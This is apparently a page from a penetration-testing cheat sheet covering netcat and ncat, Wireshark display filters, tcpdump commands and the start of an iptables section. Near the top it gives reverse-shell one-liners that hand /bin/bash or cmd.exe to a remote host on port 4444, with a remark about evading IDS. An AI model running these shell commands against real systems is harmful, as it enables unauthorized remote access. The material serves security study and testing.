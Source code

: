Create a reverse shell with Ncat using bash on Linux
>nc -nv $ip 4444 -e /bin/bash

Netcat for Banner Grabbing:

>echo "" | nc -nv -w1 IP "Address" "Ports"

### Ncat
Netcat for Nmap project which provides more security avoid IDS

Reverse shell from windows using cmd.exe using ssl
>ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl

Listen on port 4444 using ssl
>ncat -v $ip 4444 --ssl

### Wireshark
Show only SMTP (port 25) and ICMP traffic:

>tcp.port eq 25 or icmp

Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:

>ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16

Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:

>ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip

Some commands are equal

>ip.addr == xxx.xxx.xxx.xxx

Equals

>ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx
>
>ip.addr != xxx.xxx.xxx.xxx`
>
>ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx

### Tcpdump

Display a pcap file
>tcpdump -r passwordz.pcap

Display ips and filter and sort
>tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head

Grab a packet capture on port 80
>tcpdump tcp port 80 -w output.pcap -i eth0

Check for ACK or PSH flag set in a TCP packet
>tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap

### IPTables

Deny traffic to ports except for Local Loopback
